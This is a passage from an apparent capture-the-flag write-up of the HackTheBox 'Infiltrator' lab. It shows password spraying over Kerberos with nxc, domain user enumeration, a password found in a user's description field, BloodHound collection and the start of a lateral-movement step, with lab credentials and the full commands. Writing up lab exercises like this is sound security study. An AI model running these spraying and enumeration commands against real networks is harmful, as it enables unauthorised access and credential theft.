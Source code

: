 ```
l.clark:WAT?watismypass!
```

### Password Spraying

We spray the retrieved password over Kerberos and discover that it is also valid for the `d.anderson` user:

```bash
nxc ldap 10.10.11.31 -u users.txt -p 'WAT?watismypass!' -k --continue-on-success
```

![image.png](image%204.png)

```
d.anderson:WAT?watismypass!
```

## Domain Enumeration

### User Enumeration

We use `nxc` to enumerate all domain users:

```bash
nxc ldap 10.10.11.31 -u d.anderson -p 'WAT?watismypass!' --users -k
```

![image.png](image%205.png)

```bash
cat users1 | awk '{print $5}' > users.txt
```

We also notice that the `description` field for the `k.turner` user contains a password, but it is not valid for the domain:

```
k.turner:MessengerApp@Pass!
```

### BloodHound Collection

We use `bloodhound-ce-python` to ingest BloodHound and collect domain information:

```bash
bloodhound-ce-python -u l.clark -p 'WAT?watismypass!' -d INFILTRATOR.HTB \
-dc-ip 10.10.11.31 -ns 10.10.11.31 -c All --zip
```

![image.png](image%206.png)

## LM: d.anderson → e.rodriguez

After reviewing the BloodHound data, we see that the `d.anderson` user has the `GenericAll` ACL on the Marketing Digital OU, which includes the `e.rodriguez` user:

